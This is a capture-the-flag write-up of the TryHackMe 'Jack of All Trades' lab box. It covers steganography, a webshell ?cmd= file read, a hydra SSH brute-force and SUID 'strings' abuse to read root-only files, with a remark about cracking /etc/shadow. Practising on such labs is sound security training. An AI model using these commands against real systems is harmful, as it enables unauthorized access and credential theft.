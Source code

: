 ```yaml
---
layout: post
title: "TryHackMe - Jack of All Trades"
author: "joona"
---
```


![](/images/jackbox/header.jpg)
>Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

[Jack of All Trades](https://tryhackme.com/room/jackofalltrades) is an easy Linux box and was originally part of the [Securi-Tay 2020 conference](https://securi-tay.co.uk/).
It includes basic steganography and enumeration. Getting the root flag requires brute-forcing the initial access and then using a service with SUID bit
to print out the root flag.<br/><br/>

### Nmap results<br/>
{% highlight plaintext %}
nmap -A -p- 10.10.72.112 -oA nmap/jack
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
{% endhighlight %}

So the SSH and HTTP ports are inverted. By default Firefox can't open a website
at port 22 and gives a warning:
>This address uses a network port which is normally used for purposes other than Web browsing. Firefox has canceled the request for your protection.

You can bypass this by overriding banned ports in `about:config`.<br/>
Guide: [https://support.mozilla.org/en-US/questions/1083282](https://support.mozilla.org/en-US/questions/1083282)<br/><br/>

### Website enumeration
At first I was just trying to speedrun this box and instead of searching how to bypass that Firefox warning, I curl'd the website:
>curl 10.10.72.112:22

In the homepage source code we have a Base64 string and a comment:
{% highlight plaintext %}
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==
{% endhighlight %}
The Base64 translates to:
>Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq

![](/images/jackbox/homesource.jpg)

Curl the `recovery.php` site we get another Base64 looking string.
{% highlight plaintext %}
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
{% endhighlight %}

This one is in all caps so it's probably Base32.
Throwing this into [CyberChef](https://gchq.github.io/CyberChef/) we get:
{% highlight plaintext %}
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
{% endhighlight %}

CyberChef automatically identifies this as Hex which translates to a ROT13 encrypted string, which translates to:
{% highlight plaintext %}
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr!
V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F

Remember that the credentials to the recovery login are hidden on the homepage!
I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
{% endhighlight %}
<br/>

### Steganoraphy and Initial Foothold
The shortened URL redirects to a Wikipedia article [Stegosauria](https://en.wikipedia.org/wiki/Stegosauria), hinting that the credentials are probably hidden
inside of a picture on the homepage. <br/>

First I grabbed the most obvious choice `10.10.72.112:22/assets/stego.jpg`.<br/>
Running steghide on that gave a text file called `creds.txt`:
{% highlight plaintext %}
root@world:~/tryhackme/jackofall# steghide extract -sf stego.jpg
Enter passphrase: u?WtKSraq
wrote extracted data to "creds.txt".

root@world:~/tryhackme/jackofall# cat creds.txt
Hehe. Gotcha!
You're on the right path, but wrong image!
{% endhighlight %}

After this one there was to more options left, header.jpg and jackinthebox.jpg.<br/>
Thinking that I ain't finna get finessed two times in a row, I went after the `header.jpg` and
gave it the same treatment as stego.jpg. This resulted in file called `cms.creds`:
{% highlight plaintext %}
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
{% endhighlight %}

We can use these credentials to login on `10.10.72.112:22/recovery.php`.<br/>
![](/images/jackbox/recoverypage.jpg)

After logging in we are redirected to a new page:
![](/images/jackbox/recovery2.jpg)

It seems we have a simple webshell that we can use. Listing the contents of `/home`-directory we see an interesting file `jacks_password_list`.<br/>
{% highlight plaintext %}
10.10.72.112:22/nnxhweOV/index.php?cmd=ls /home
10.10.72.112:22/nnxhweOV/index.php?cmd=cat /home/jacks_password_list
{% endhighlight %}
![](/images/jackbox/pass.jpg)


We get twenty-something passwords we can try to login with.
I saved the passwords to a text file and tried to brute-force the SSH-login (port 80).
{% highlight cmd %}
hydra -l jack -P pass.txt ssh://10.10.72.112 -s 80
{% endhighlight %}
![](/images/jackbox/hydra.jpg)<br/>

Logging in to SSH with the credentials we find `user.jpg` in jack's home directory.<br/>
We can download it with SCP:
{% highlight plaintext %}
scp -P 80 jack@10.10.72.112:/home/jack/user.jpg
{% endhighlight %}
![](/images/jackbox/user.jpg)<br/><br/>

### Root Flag
Running the enumeration tool [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
on the victim machine, we see that `string`-command has SUID bit set.
We can use this to [read files](https://gtfobins.github.io/gtfobins/strings/) like root.txt:
{% highlight console %}
jack@jack-of-all-trades:~$ LFILE=/root/root.txt
jack@jack-of-all-trades:~$ strings "$LFILE"
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: ~~~censored root flag~~~
{% endhighlight %}

We could also use this to read the /etc/shadow and crack the hashes, or try to find SSH-keys.

